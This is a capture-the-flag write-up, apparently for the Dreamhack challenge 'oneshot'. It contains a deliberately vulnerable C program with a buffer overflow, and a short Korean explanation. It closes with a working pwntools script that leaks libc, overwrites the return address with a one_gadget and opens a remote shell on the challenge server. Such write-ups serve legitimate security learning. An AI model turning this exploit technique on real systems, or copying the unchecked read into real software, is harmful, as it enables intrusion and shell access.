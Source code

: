 ## oneshot
---

```c
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

<br><br>

## Solution
---

```
Ubuntu 16.04
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

<br>

```shell
index@KJS:~/oneshot$ one_gadget ./libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

<br>

check가 0이여야 하므로 이 조건을 생각해서 버퍼 오버플로우를 해보면, 입력을 rbp-0x20부터 받고 check는 rbp-0x8에 있다.

read는 46만큼받으므로 memset을 진행해도 리턴주소에는 가젯이 들어가있어서 셸을 실행할 것이다.

페이로드는 그럼 ```'A'*(0x20-0x8)+p64(0)+b'B'*0x8+p64(one_gadget)```이 된다.

one_gadget은 조건에 맞는 것을 골라야 한다.

첫 번째 가젯과 마지막 가젯은 확인해보니 각각 값이 0인 것을 확인할 수 있었는데, 3번째 가젯은 조건을 만족하는 것처럼 보였는데 왜 안되는지 의문이다..

<br>

```python
from pwn import *

p = remote('host1.dreamhack.games',15100)
libc = ELF('./libc.so.6')

p.recvuntil(b'stdout: ')

stdout = int(p.recvn(14),16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']

print("@ stdout : ",hex(stdout))
print("@ libc_base: ", hex(libc_base))

one_gadget = libc_base + 0x45216
payload = b'A'*(0x20-0x8)+ p64(0) + b'B'*0x8 + p64(one_gadget)
p.sendlineafter(b'MSG: ', payload)

p.interactive()
```
